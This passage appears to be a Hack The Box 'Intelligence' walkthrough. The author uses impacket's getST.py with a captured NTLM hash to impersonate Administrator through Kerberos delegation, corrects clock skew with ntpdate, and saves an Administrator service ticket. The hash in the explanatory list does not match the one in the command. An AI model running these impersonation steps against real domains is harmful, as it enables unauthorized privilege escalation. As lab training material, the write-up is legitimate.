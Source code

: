 
I will be using `getST.py` from impackets library from inbuild stored in kali machine so lets Impersonate Administrator here →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ /usr/share/doc/python3-impacket/examples/getST.py -spn www/dc.intelligence.htb -dc-ip 10.10.10.248 -impersonate Administrator intelligence.htb/svc_int -hashes :e0dcda8d93bf71a6352ea7803c8f17f1
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
{: .nolineno}

- `dc-ip 10.10.10.248` - domain controller IP
- `spn www/dc.intelligence.htb` - the SPN (Service Principle Name)
- `hashes :5e47bac787e5e1970cf9acdb5b316239` - the NTLM I collected earlier
- `impersonate administrator` - the user I want a ticket for
- `intelligence.htb/svc_int` - the account I’m running

I got this clock skew too great error so to adjust the time of our machine to the victim machine I have to use this tool `ntpdate` and also If you are running this attacker machine from `virtual box` you have to stop this service because it takes back 30 seconds.

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ sudo ntpdate 10.10.10.248 
2024-01-16 06:46:37.291394 (+0530) +28802.729696 +/- 0.040950 10.10.10.248 s1 no-leap
CLOCK: time stepped by 28802.729696
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ sudo service virtualbox-guest-utils stop
```
{: .nolineno}

Now lets again try that service ticket command →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ /usr/share/doc/python3-impacket/examples/getST.py -spn www/dc.intelligence.htb -dc-ip 10.10.10.248 -impersonate Administrator intelligence.htb/svc_int -hashes :e0dcda8d93bf71a6352ea7803c8f17f1
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
{: .nolineno}

This time I got the `kerbrute ticket` in this `Administrator.ccache` file so lets export it to the variable and access the administrator now with no password →
